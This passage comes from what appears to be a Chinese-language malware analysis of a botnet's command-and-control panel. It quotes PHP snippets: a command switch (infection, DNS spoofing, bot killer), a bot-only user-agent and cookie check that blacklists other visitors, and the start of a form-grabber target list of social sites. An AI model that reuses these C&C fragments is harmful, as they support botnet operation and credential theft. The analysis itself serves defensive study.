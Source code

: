 ```
            break;
        case "visit url":
            return "visit";
            break;
        case "bot killer":
            return "botkiller";
            break;
        case "infection":
            return "infect";
            break;
        case "dns spoofing":
            return "dns";
            break;
    }
    return "failed";
}

```

C&C对非法请求非常敏感，并且会根据源IP黑名单作出相应的反应：

functions.php

```
function CheckBotUserAgent($ip)
{
  $bot_user_agent = "Mozilla/5.0 (Windows NT 6.1; WOW64; rv:35.0) Gecko/20100101 Firefox/35.0";
  if ($_SERVER['HTTP_USER_AGENT'] != $bot_user_agent) {
    AddBan($ip);
  }
  if (!isset($_COOKIE['authkeys'])) {
    AddBan($ip);
  }
  $cookie_check = $_COOKIE['authkeys'];
  if ($cookie_check != "21232f297a57a5a743894a0e4a801fc3") { /* md5(admin) */
    AddBan($ip);
  }
}

```

通过观察`install.php`，我们还可以发现Form表单所截取的目标。这里的列表中包括了最流行的电子邮件和社交网络网站（**facebook、linkedin、twitter**等）。

install.php

```
$ff_sett = "INSERT INTO `formgrabber_host` (`hostnames`, `block`) VALUES".
```